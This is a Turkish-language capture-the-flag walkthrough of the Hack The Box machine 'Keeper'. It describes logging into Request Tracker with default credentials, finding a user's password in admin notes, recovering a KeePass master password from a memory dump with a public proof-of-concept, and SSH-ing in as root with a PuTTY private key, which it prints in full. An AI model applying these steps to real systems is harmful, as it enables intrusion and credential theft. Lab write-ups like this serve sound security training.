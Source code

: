```yaml
---
glightbox: true
---
```


# Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.227 keeper.htb tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir giriş sayfasıyla karşılaştım:

![](../assets/images/keeper/rt-login-page.png)

Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola bilgisini (`password`) öğrendim ve bu bilgileri kullanarak giriş gerçekleştirebildim:

![](../assets/images/keeper/rt-at-a-glance.png)

Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-posta konuşmasına rastladım:

![](../assets/images/keeper/ticket-300000.png)

Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:

![](../assets/images/keeper/user-password.png)

Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola bilgisi (`Welcome2023!`) ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip
ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper
cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:

![](../assets/images/keeper/danish-user.png)

Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat root.txt
```
